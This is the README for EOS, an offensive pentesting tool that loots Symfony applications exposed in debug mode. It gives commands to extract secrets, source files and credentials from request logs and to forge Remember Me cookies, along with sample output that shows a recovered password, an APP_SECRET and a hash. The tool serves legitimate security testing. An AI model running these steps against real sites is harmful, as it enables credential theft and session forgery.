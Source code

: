 # Enemies Of Symfony (EOS)

`EOS` loots information from a Symfony target in debug mode:

| Section | Description |
| --- | --- |
| General | Get general information about the target. |
| Phpinfo | Extract Symfony environment variables from the exposed phpinfo(). |
| Routes | Get the list of registered routes. |
| Request logs | Look for credentials in POST request logs. |
| Project files | Retrieve project files (configuration, database, etc.) based on a wordlist. |
| Sources | Extract the application source code. |
| Cookies | Craft Remember Me cookies. |

More info at https://www.synacktiv.com/posts/pentest/looting-symfony-with-eos.html.

Note that this tool does not exploit any Symfony vulnerability. The profiler is
a useful component for developers and `EOS` simply takes advantage on
misconfigured Symfony applications. In fact, the profiler [documentation][1]
prominently warns developers:

> Never enable the profiler in production environments as it will lead to major security vulnerabilities in your project.

Thanks to all the Symfony team for their awesome work!

[1]: https://symfony.com/doc/current/profiler.html

## Installation

```bash
$ git clone https://github.com/Synacktiv/eos
$ python3 -m pip install --user ./eos
```

## Usage

```bash
usage: eos [-h] [-V] [-v] [--no-colors] {scan,sources,get,creds,cookies} ...

  ███████╗ ██████╗ ███████╗
  ██╔════╝██╔═══██╗██╔════╝
  █████╗  ██║   ██║███████╗
  ██╔══╝  ██║   ██║╚════██║
  ███████╗╚██████╔╝███████║  Enemies Of Symfony
  ╚══════╝ ╚═════╝ ╚══════╝  v1.1

positional arguments:
  {scan,sources,get,creds,cookies}
    scan                 perform a full scan
    sources              download application source code
    get                  download a file from the application
    creds                extract credentials from request logs
    cookies              craft remember me cookies with a great lifetime

optional arguments:
  -h, --help             show this help message and exit
  -V, --version          display version info
  -v, --verbose          increase verbosity
  --no-colors            disable colors in output

examples:
  eos scan http://localhost
  eos scan --headers 'Cookie: foo=bar; john=doe' 'User-Agent: EOS' -- http://localhost
  eos get http://localhost config/services.yaml
  eos cookies -u jane_admin -H '$2y$13$IMalnQpo7xfZD5FJGbEadOcqyj2mi/NQbQiI8v2wBXfjZ4nwshJlG' -s 67d829bf61dc5f87a73fd814e2c9f629
```

```bash
$ eos scan http://localhost --output results
[+] Starting scan on http://localhost
[+] 2020-04-23 14:21:26.463352 is a great day

[+] Info
[!]   Symfony 5.0.1
[!]   PHP 7.3.11-1~deb10u1
[!]   Environment: dev

[+] Request logs
[+] Found 9 POST requests
[!] Found the following credentials with a valid session:
[!]   jane_admin: kitten [ROLE_ADMIN]

[+] Phpinfo
[+] Available at http://localhost/_profiler/phpinfo
[+] Found 101 PHP variables
[!] Found the following Symfony variables:
[!]   APP_ENV: dev
[!]   APP_SECRET: 67d829bf61dc5f87a73fd814e2c9f629
[!]   DATABASE_URL: sqlite:///%kernel.project_dir%/data/database.sqlite
[!]   MAILER_URL: null://localhost

[+] Project files
[+] Found: composer.lock, run 'symfony security:check' or submit it at https://security.symfony.com
[!] Found the following files:
[!]   composer.lock
[!]   composer.json
[!]   config/bundles.php
[!]   config/bootstrap.php
[!]   config/packages/assets.yaml
[!]   config/packages/cache.yaml
[!]   config/packages/dev/debug.yaml
[!]   config/packages/dev/monolog.yaml
[!]   config/packages/dev/routing.yaml
[!]   config/packages/dev/swiftmailer.yaml
[!]   config/packages/dev/web_profiler.yaml
[!]   config/packages/doctrine_migrations.yaml
[!]   config/packages/doctrine.yaml
[!]   config/packages/framework.yaml
[!]   config/packages/html_sanitizer.yaml
[!]   config/packages/prod/doctrine.yaml
[!]   config/packages/prod/monolog.yaml
[!]   config/packages/prod/routing.yaml
[!]   config/packages/prod/webpack_encore.yaml
[!]   config/packages/routing.yaml
[!]   config/packages/security.yaml
[!]   config/packages/sensio_framework_extra.yaml
[!]   config/packages/swiftmailer.yaml
[!]   config/packages/test/dama_doctrine_test_bundle.yaml
[!]   config/packages/test/framework.yaml
[!]   config/packages/test/monolog.yaml
[!]   config/packages/test/routing.yaml
[!]   config/packages/test/security.yaml
[!]   config/packages/test/swiftmailer.yaml
[!]   config/packages/test/twig.yaml
[!]   config/packages/test/validator.yaml
[!]   config/packages/test/webpack_encore.yaml
[!]   config/packages/test/web_profiler.yaml
[!]   config/packages/translation.yaml
[!]   config/packages/twig.yaml
[!]   config/packages/validator.yaml
[!]   config/packages/webpack_encore.yaml
[!]   config/routes/annotations.yaml
[!]   config/routes/dev/framework.yaml
[!]   config/routes/dev/web_profiler.yaml
[!]   config/routes.yaml
[!]   config/services.yaml
[!]   data/database.sqlite
[!]   data/database_test.sqlite
[!]   package.json
[!]   public/index.php
[!]   public/robots.txt
[!]   README.md
[!]   src/Kernel.php
[!]   symfony.lock
[!]   var/cache/dev/url_generating_routes.php
[!]   var/cache/dev/url_matching_routes.php
[!]   var/log/dev.log

[+] Routes
[!] Found the following routes:
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/new
[!]   /{_locale}/admin/post/{id}
[!]   /{_locale}/admin/post/{id}/edit
[!]   /{_locale}/admin/post/{id}/delete
[!]   /{_locale}/blog/
[!]   /{_locale}/blog/rss.xml
[!]   /{_locale}/blog/page/{page}
[!]   /{_locale}/blog/posts/{slug}
[!]   /{_locale}/blog/comment/{postSlug}/new
[!]   /{_locale}/blog/search
[!]   /{_locale}/login
[!]   /{_locale}/logout
[!]   /{_locale}/profile/edit
[!]   /{_locale}/profile/change-password
[!]   /{_locale}

[+] Project sources
[!] Found the following source files:
[!]   src/Command/AddUserCommand.php
[!]   src/Command/DeleteUserCommand.php
[!]   src/Command/ListUsersCommand.php
[!]   src/Controller/Admin/BlogController.php
[!]   src/Controller/BlogController.php
[!]   src/Controller/SecurityController.php
[!]   src/Controller/UserController.php
[!]   src/DataFixtures/AppFixtures.php
[!]   src/Entity/Comment.php
[!]   src/Entity/Post.php
[!]   src/Entity/Tag.php
[!]   src/Entity/User.php
[!]   src/EventSubscriber/CheckRequirementsSubscriber.php
[!]   src/EventSubscriber/CommentNotificationSubscriber.php
[!]   src/EventSubscriber/ControllerSubscriber.php
[!]   src/EventSubscriber/RedirectToPreferredLocaleSubscriber.php
[!]   src/Events/CommentCreatedEvent.php
[!]   src/Form/CommentType.php
[!]   src/Form/DataTransformer/TagArrayToStringTransformer.php
[!]   src/Form/PostType.php
[!]   src/Form/Type/ChangePasswordType.php
[!]   src/Form/Type/DateTimePickerType.php
[!]   src/Form/Type/TagsInputType.php
[!]   src/Form/UserType.php
[!]   src/Kernel.php
[!]   src/Pagination/Paginator.php
[!]   src/Repository/PostRepository.php
[!]   src/Repository/TagRepository.php
[!]   src/Repository/UserRepository.php
[!]   src/Security/PostVoter.php
[!]   src/Twig/AppExtension.php
[!]   src/Twig/SourceCodeExtension.php
[!]   src/Utils/Markdown.php
[!]   src/Utils/MomentFormatConverter.php
[!]   src/Utils/Slugger.php
[!]   src/Utils/Validator.php

[+] Saving files to results
[+] Saved 88 files

[+] Generated tokens: 5894a5 f68efa
[+] Scan completed in 0:00:13
```
